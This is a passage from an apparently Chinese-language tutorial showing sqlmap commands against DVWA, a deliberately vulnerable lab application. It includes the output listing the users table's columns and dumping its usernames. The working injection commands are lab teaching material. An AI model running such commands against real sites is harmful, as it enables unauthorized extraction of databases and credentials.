 ```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
```

result

```
[08:52:02] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```

**查询指定列数据：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

result

```
[08:56:36] [INFO] fetching entries of column(s) '`user`' for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[5 entries]
+---------+
| user    |
+---------+
| admin   |
| gordonb |
| 1337    |
| pablo   |
| smithy  |
+---------+
```
